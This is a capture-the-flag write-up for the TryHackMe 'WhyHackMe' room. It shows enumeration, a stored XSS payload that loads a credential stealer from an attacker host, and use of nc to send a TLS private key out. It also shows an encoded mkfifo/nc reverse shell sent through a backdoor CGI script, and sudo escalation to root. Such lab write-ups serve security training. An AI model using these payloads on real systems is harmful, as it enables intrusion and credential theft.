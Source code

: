 Link: https://tryhackme.com/room/whyhackme
---
<h1>Service Enumeration</h1>

<b>┌──(duke㉿kali)-[~/Documents/THM_WhyHackMe]<br>
└─$ nmap -sV -sC -Pn 10.10.134.235</B><BR>
<p>Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-08 02:28 CST
<code>Nmap scan report for 10.10.134.235
Host is up (0.039s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.30.202
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)
|   256 cb:29:97:dc:fd:85:d9:ea:f8:84:98:0b:66:10:5e:6f (ECDSA)
|_  256 12:3f:38:92:a7:ba:7f:da:a7:18:4f:0d:ff:56:c1:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome!!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.16 seconds</p>
</code>
<b>┌──(duke㉿kali)-[~/Documents/THM_WhyHackMe]<br>
└─$ ftp anonymous@10.10.134.235</b><BR>
<code>
Connected to 10.10.134.235.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||46512|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
226 Directory send OK.
ftp> get update.txt
local: update.txt remote: update.txt
229 Entering Extended Passive Mode (|||46740|)
150 Opening BINARY mode data connection for update.txt (318 bytes).
100% |**********************************************************************************************************************************************************************************************|   318      169.79 KiB/s    00:00 ETA
226 Transfer complete.
318 bytes received in 00:00 (7.83 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||29466|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||59532|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
226 Directory send OK.
ftp> exit
421 Timeout.

<B>┌──(duke㉿kali)-[~/Documents/THM_WhyHackMe]<br>
└─$ cat update.txt  </B>

>Hey I just removed the old user mike because that account was compromised and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or people with access to the common account. 

┌──(duke㉿kali)-[~/Documents/THM_WhyHackMe]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.134.235 -x .php,.ht
>===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.134.235
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,tx
[+] Timeout:                 10s
===============================================================
2024/01/08 03:00:12 Starting gobuster in directory enumeration mode
===============================================================
/blog.php             (Status: 200) [Size: 3102]
/login.php            (Status: 200) [Size: 523] 
/register.php         (Status: 200) [Size: 643] 
/index.php            (Status: 200) [Size: 563] 
/dir                  (Status: 403) [Size: 278] 
/assets               (Status: 301) [Size: 315] [--> http://10.10.134.235/assets/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]                     
/config.php           (Status: 200) [Size: 0]                                     
/server-status        (Status: 403) [Size: 278] 
---

<h1> Web Service Testing </h1>

Trying found some XSS or LFI on POST request and found that register.php is vuln via parametr username
register new user: <script src="http://10.X.X.X:8000/stealer.js"></script>     // attacker ip
login by user
run python http server with stealer.js
call script by adding comments on blog page

log from http server
10.10.240.147 - - [11/Jan/2024 03:53:19] "GET /stealer4.js?jack:WhyIsMyPasswordSoStrongIDK HTTP/1.1" 200 -

<h2> PrivEscalation lateral moving </h2>
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                            
Matching Defaults entries for jack on ubuntu:                                                               
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jack may run the following commands on ubuntu:
    (ALL : ALL) /usr/sbin/iptables
--remote-debugging-port
jack@ubuntu:/opt$ ls
capture.pcap  urgent.txt

---
<h3> Analysing captured packet</h3>
  
you need TLS key for decryption 
jack@ubuntu:/opt$ nc -w 3 10.x.x.x 4444 < ../etc/apache2/certs/apache.key 

GET /cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id HTTP/1.1
Host: 10.0.2.15:41312
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1

HTTP/1.1 200 OK
Date: Wed, 16 Aug 2023 14:35:43 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 64
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html


uid=33(www-data) gid=1003(h4ck3d) groups=1003(h4ck3d)

<h2> Open Backdoor Port </h2>
  
jack@ubuntu:/opt$ sudo /usr/sbin/iptables -I INPUT -p tcp --dport 41312 -j ACCEPT
jack@ubuntu:/opt$ ss -tlnup | grep "41312"
tcp   LISTEN 0      511               0.0.0.0:41312        0.0.0.0:*        

<h2>Get Reverse Shell </h2>

https://whyhackme.thm:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.x.x.x%204444%20%3E%2Ftmp%2Ff


nc -lvnp 4444

<h2>PrivEsc</h2>
www-data@ubuntu:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
www-data@ubuntu:/usr/lib/cgi-bin$ sudo su
sudo su
/usr/bin/script -qc /bin/bash /dev/null
root@ubuntu:/usr/lib/cgi-bin# id
id
uid=0(root) gid=0(root) groups=0(root)

</code>


